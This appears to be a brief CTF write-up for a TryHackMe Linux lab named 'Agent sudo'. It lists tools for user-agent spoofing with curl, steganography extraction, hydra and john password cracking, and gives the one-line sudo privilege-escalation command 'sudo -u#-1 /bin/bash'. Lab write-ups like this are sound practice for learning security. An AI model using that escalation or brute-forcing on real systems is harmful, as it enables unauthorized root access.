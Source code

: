 # Agent sudo 🧭
Names | Details
--------|-----
Source | tryhackme 
Level     | medium
Os | Linux

**Notes :**
#stegnography
#passwordCracking



## Gaining Access 😉

- user agent changing using curl
- binwalk extraction
- hydra bruteforce



## Maintaining Access 🥷
- bash can be run without password
	- sudo -u#-1 /bin/bash 
- sudo -l


## Important commands 🔥
- `curl -A "R" -L [http://10.10.23.158/](http://10.10.23.158/)`
	```
	curl "http://10.10.23.158" -H "User-Agent: R" -L
	```
- binwalk -e
- echo QXJlYTUx | base64 -d
- scp username@hostname:/path/to/remote/file /path/to/local/file
- `steghide extract -sf cute-alien.jpg`
- binwalk
## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- password cracking using john
- zip2john => zip bruteforce
- ssh file download using scp
- extract from jpeg using steghide and binwalk


--------------------------------
**By Nibras Muhammed** 🤓🖥️






